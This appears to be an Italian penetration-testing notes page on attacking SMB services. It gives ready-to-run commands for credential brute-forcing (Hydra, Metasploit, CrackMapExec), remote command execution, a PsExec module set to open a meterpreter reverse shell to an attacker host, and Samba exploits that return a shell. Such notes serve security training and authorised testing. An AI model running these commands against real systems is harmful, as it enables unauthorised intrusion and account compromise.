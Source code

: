 <a href="https://github.com/Gigidotexe/Penetration_Test_notes/blob/main/README.md"> Back </a>
## Ricerca Exploit noti
Dopo aver effettuata la scansione del servizio e la sua versione nella fase di Scansione ed Enumerazione, possiamo procedere con la ricerca di exploit noti usando <a href="https://www.exploit-db.com/">Ecploit Database</a> oppure: 
```bash
searchsploit <smb-versione> 
```
> Se restituise un exploit utilizzabile, copia il path e usa `searchsploit -m <path>`

Versioni vulnerabili comuni:
- **SMBv1** ⟶ EternalBlue (MS17-010)
- **Windows XP/2003/7 non patchati** ⟶ buffer overflow
- **vsrvsvc** ⟶ vulnerabilità RPC

Versioni SMB:
- **SMB 1.0** ⟶ insicuro, supporta accessi anonimi, molte vulnerabilità.
- **SMB 2.0/2.1** ⟶ introdotti con Windows Vista e Server 2008, migliorie in sicurezza e prestazioni.
- **SMB 3.0+** ⟶ da Windows 8 in poi, supporto crittografia, multicanale, virtualizzazione.

---

## Brute Force
Molto probabilmente il servizio sará protetto da credenziali e quindi cerchiamo di trovare con un attacco bruteforce
### Hydra
```bash
hydra -L <userList> -P <passwordList> <IP> smb
```

### Metasploit
```bash
use auxiliary/scanner/smb/smb_login
set RHOSTS <IP>
set USER_FILE <user_list>
set PASS_FILE <pass_list>
run
```

### CrackMapExec
strumento da riga di comando scritto in Python, progettato per automatizzare la ricognizione e l’attacco a reti Windows, in particolare in ambienti Active Directory. 
```bash
crackmapexec smb <target> -u <userList> -p <passwordList>
#dopo aver ottenuto delle credenziali
crackmapexec smb <target> -u <username> -p <password> --shares     # elenca condivisioni
crackmapexec smb -u <username> -p <password> <target> --users      # enumera utenti
crackmapexec smb -u <username> -p <password> <target> -x "whoami"  # esegue un comando
```
> È potente, ma anche rumoroso nei log di rete: in un test reale, valuta il rischio di account lockout e allarmi SIEM

---

## PsExec (Metasploit)
Dopo aver scovato delle credenziali possiamo usare uno strumento sviluppato da Sysinternals (Microsoft) che permette di eseguire comandi su un sistema Windows remoto come se li stessi eseguendo in locale.
> Attenzione percè funziona solo con credenziali di livello amministrativo e valide (`ADMIN$`, `IPC$`)
```bash
use exploit/windows/smb/psexec
set RHOSTS <IP>
set SMBUser <username>
set SMBPass <password>
set PAYLOAD windows/meterpreter/reverse_tcp
set LHOST <KaliIP>
set LPORT <Port>
run
```
## PsExec (Script)
Esiste anche uno script incluso nel pacchetto Impacket, che replica il comportamento di PsExec di Sysinternals
```bash
/usr/share/doc/python3-impacket/examples/psexec.py         # Percorso tipico
cp /usr/share/doc/python3-impacket/examples/psexec.py .    # Copia nella Directory corrente (.) 
chmod +x psexec.py

# utilizzo
psexec.py <username>@<IP> cmd.exe                          # accesso CMD remoto via SMB
```

---


## Enumerazione interna
Per poter enumerare bene, si deve andare piú a fondo e quindi esistono diversi strumenti, ognuno con caratteristiche specifiche che li rendono adatti a compiti complementari
### smbclient
strumento da riga di comando incluso nel pacchetto Samba (su Linux), che permette di connettersi a condivisioni SMB/CIFS su server Windows, Linux o Samba.
```bash
smbclient -L //<target>/ -N                    # condivisioni anonime
smbclient -L <IP> -U <username>                # share disponibili per utente
smbclient //<target>/<share> -U <username>     # accesso alla share, inserisci la password in seguito
```
Comandi interni:
- `?`, `ls`, `get <file>`, `put <file>`, `cd`, `mkdir`, `rmdir`
> File come `*.tar.gz` possono essere estratti con `tar xzf file.tar.gz`

### rpcclient
strumento da riga di comando incluso nel pacchetto Samba, che consente di interagire con i servizi RPC (Remote Procedure Call) dei sistemi Windows.
```bash
rpcclient -U "" <IP>                # connessione null session
rpcclient -U utente <IP>            # connessione usando le credenziali
rpcclient -U utente%password <IP>   # connessione con credenziali insieme
```
Comandi dentro RPC CLient: 
```bash
enumdomusers      # elenca tutti gli utenti del dominio o del sistema locale
enumdomgroups     # elenca tutti i gruppi definiti nel dominio o nella macchina locale
queryuser <RID>   # Permette di ottenere informazioni dettagliate su un singolo utente, partendo dal suo RID
```

### smbmap
strumento da riga di comando scritto in Python che serve per enumerare le condivisioni SMB su sistemi Windows o Samba, e capire che tipo di accesso ha un determinato utente (lettura, scrittura, esecuzione, ecc.).
```bash
smbap -H <IP>
# ma se forniamo delle credenziali ottiene piú dettagli
smbmap -H <IP> -u <username> -p <password>
```
> `R` = lettura <br>
> `W` = scrittura <br>
> `-` = nessun accesso <br>

### enum4linux
strumento da riga di comando, basato su `smbclient`, `rpcclient`, `nmblookup`, usato per enumerare informazioni da sistemi Windows o Samba tramite SMB. Permette di raccogliere dati come utenti, gruppi, condivisioni di rete, nomi NetBIOS, domini, SID e molto altro, anche senza credenziali, sfruttando chiamate RPC e SMB.
```bash
enum4linux <IP>
# ma se forniamo delle credenziali ottiene piú dettagli
enum4linux -u <user> -p <password> <IP>
```

---

## Exploits
Altri exploit utilizzabili sono:
### is_known_pipename
```bash
use exploit/linux/samba/is_known_pipename
set RHOST <IP>
check
run
```
otterremo una shell unix sul target.
> se abbiamo delle informazioni su delle share possiamo settare `SMB_SHARE_NAME` con il nome della share nota.

### usermap_script
le versioni che vanno dalla 3.0.20 alla 3.0.25rc3 possono essere vulnerabili a questo modulo
```bash
use exploit/multi/samba/usermap_script
set RHOST <IP>
```

---

